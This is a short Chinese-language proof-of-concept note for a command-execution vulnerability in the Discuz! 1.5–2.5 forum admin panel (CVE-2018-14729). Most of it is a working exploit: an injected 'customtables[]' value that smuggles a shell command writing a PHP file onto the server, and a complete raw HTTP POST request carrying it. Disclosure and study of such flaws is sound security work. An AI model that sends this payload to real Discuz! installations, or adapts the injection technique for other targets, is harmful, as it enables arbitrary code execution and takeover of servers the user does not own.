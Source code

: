 # Discuz!-1.5-2.5-命令执行漏洞.assets

## 影响版本

 **Discuz! 1.5-2.5**

## POC

需要登入后台。

![1](Discuz!-1.5-2.5-命令执行漏洞.assets/1.png)
![2](Discuz!-1.5-2.5-命令执行漏洞.assets/2.png)

修改的参数

参数`customtables[]`

    customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

数据包

    POST /discuz25/admin.php?action=db&operation=export&setup=1 HTTP/1.1
    Host: localhost
    Content-Length: 252
    Cache-Control: max-age=0
    Origin: http://localhost
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost/discuz25/admin.php?action=db&operation=export
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: _ga=GA1.1.994534325.1530166127; PHPSESSID=ffe1069f199ac7656303b61e42db4f5d; ECSCP_ID=e685eee56d5dc4a732b0b1ecb8cbac6becac2355; ECS_ID=b9e7920dfb02c84b5298d0022c64a8fc393376d7; Phpstorm-326452dc=558db1bc-7f7b-4670-8d36-9cef7d8c1b9d; ECS[visit_times]=8; 3Od_visitedfid=2; 3Od_auth=03d3WSoYgxBuC4Yg3mqq4yEVgLBDsrbNx%2F8rIcURpRI5sDFtpC1S9F%2BYa6BViyFggZYM7bac7evIAZJdgLOJ7Q; 3Od_sid=mm4AMQ; QoOR_2132_saltkey=V6AnRzmw; QoOR_2132_lastvisit=1545183584; QoOR_2132_widthauto=-1; R94S_2132_saltkey=1hs56u42; R94S_2132_lastvisit=1545220172; R94S_2132_promotion=1; R94S_2132_auth=75696lGYV1FEogy00DO%2FmyhWbxk8OljAPZAeSvxfgwvvLbMruyS2sfVSYZUG4wr3GYw5L66%2FfppgB9gzioss; R94S_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; R94S_2132_creditbase=0D0D1D0D0D0D0D0D0; R94S_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; R94S_2132_ulastactivity=e0adnKO8pY2qUt5XPBdVc3jbgQxCrCiAkAFzNuN%2Fu9wTbgHc7XLK; R94S_2132_sid=9H4E8j; R94S_2132_lastact=1545224711%09admin.php%09; QoOR_2132_sid=BdGwL9; QoOR_2132_sendmail=1; QoOR_2132_ulastactivity=9cf4%2B3XCcfF1uHee0LOFG0wa6FFvCc1Rp96Kg%2BkgOi%2FL7ovDRKru; QoOR_2132_auth=32d7SwpKowF2VAeqfqe0dWo1FjINHjZA9zt%2ByF8A7LOif0pFSaHnEznijiCaqgsQD8NSBtEiwEDL4Wrnx1gz; QoOR_2132_checkpatch=1; QoOR_2132_checkupgrade=1; QoOR_2132_lastact=1545224853%09admin.php%09
    Connection: close
    
    formhash=0d2eaac0&scrolltop=&anchor=&type=custom&customtables%5B%5D=pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #&method=shell&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=181219_u0CC19kJ&exportsubmit=%E6%8F%90%E4%BA%A4




## References
https://paper.seebug.org/763/

https://github.com/FoolMitAh/CVE-2018-14729

